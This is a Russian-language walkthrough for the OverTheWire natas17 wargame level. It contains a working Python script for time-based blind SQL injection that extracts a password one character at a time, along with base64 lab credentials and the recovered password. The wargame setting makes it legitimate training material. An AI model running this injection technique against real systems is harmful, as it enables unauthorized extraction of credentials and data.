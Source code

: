 таска аналогична [[15 -> 16]] за исключением того, что сервер не дает никакого ответа нашлась не нашлась запись
однако сервер дает ответ как таковой
можно заставить его давать ответ через определенное время если запись нашлась
очень помогла эта репозитория:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md


код:
```python
from requests import get
from string import ascii_lowercase, ascii_uppercase 


url = "http://natas17.natas.labs.overthewire.org"
#берем только пользователя natas16
#добавляем условие при котором смотрим проверяем пароль
#если угадали с паролем - спим 10 секунд
payload = """natas18" and
password collate utf8mb4_bin like "{password}%" and 
(SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#"""

#будущие параметры которые будем передавать в запросе
params = {
	"username" : payload
}

#заголовок авторизации
header = {
	#"Authorization": "Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" #natas15 creds
	#"Authorization": "Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" #natas16 creds
	"Authorization": "Basic bmF0YXMxNzpFcWpISmJvN0xGTmI4dndoSGI5czc1aG9raDVURjBPQw==" #natas17 creds

}

#алфавит
letters =  ascii_lowercase + ascii_uppercase + '0123456789'

#нынешний пароль
current_password = ''

#циклично перебираем каждый символ
while True:
	srabotka = False
	#проходимся по каждой букве
	for let in letters:
		current_params = params.copy()
		#задаем нынешний пароль + нынешняя буква в параметры
		current_params['username'] = current_params['username'].format(password = current_password + let)
		#формируем запрос
		resp = get(url, params=current_params, headers=header) 
		#проверяем сработал ли запрос
		if resp.elapsed.total_seconds() >= 10:
			#если запрос сработал, значит буква подошла, записываем результат
			current_password += let
			srabotka = True
			print(current_password)
			break
	#если прошлись по всему алфавиту и алгоритм не нашел ни одной буквы - значит мы нашли пароль
	if not srabotka:
		break


```

пароль:
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
